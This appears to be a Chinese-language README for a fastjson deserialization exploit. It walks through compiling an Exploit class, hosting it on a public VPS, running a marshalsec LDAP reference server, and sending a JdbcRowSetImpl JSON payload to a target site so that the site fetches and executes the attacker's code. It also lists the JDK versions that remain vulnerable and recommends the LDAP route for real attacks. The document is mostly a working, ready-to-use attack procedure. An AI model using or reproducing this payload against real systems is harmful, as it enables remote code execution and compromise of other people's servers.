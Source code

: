 ## 使用方法：

1. 编译Exploit.java文件

   > 可根据需求修改其中的执行命令

   ```java
   javac Exploit.java
   ```

2. 将编译后的Exploit.class放到公网vps（能够使用http去访问到）

3. 将`marshalsec-0.0.3-SNAPSHOT-all.jar`放到公网vps上，注意公网vps需配置好java环境

   执行如下命令启用ldap服务：

   ```java
   java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://公网vpsHTTP的IP:端口/#Exploit” 9999
   ```

4. 在目标网站上执行如下EXP即可出发Exploit.class中的命令

   ```json
   
   {
       "a": {
           "@type": "java.lang.Class", 
           "val": "com.sun.rowset.JdbcRowSetImpl"
       }, 
       "b": {
           "@type": "com.sun.rowset.JdbcRowSetImpl", 
           "dataSourceName": "ldap://公网vps的ip:9999/Exploit", 
           "autoCommit": true
       }
   }
   ```




## 注意事项：

fastjson版本需低于1.2.47

目标网站的jdk版本不能过高，高版本的java对jndi注入进行了限制，具体要求如下：

基于rmi的利用方式：适用jdk版本：JDK 6u132, JDK 7u131, JDK 8u121之前。 在jdk8u122的时候，加入了反序列化白名单的机制，关闭了rmi远程加载代码。 基于ldap的利用方式：适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。 在Java 8u191更新中，Oracle对LDAP向量设置了相同的限制，并发布了CVE-2018-3149，关闭了JNDI远程类加载。 可以看到ldap的利用范围是比rmi要大的，实战情况下推荐使用ldap方法进行利用。



## 演示视频：

https://www.bilibili.com/video/BV1La4y147fj

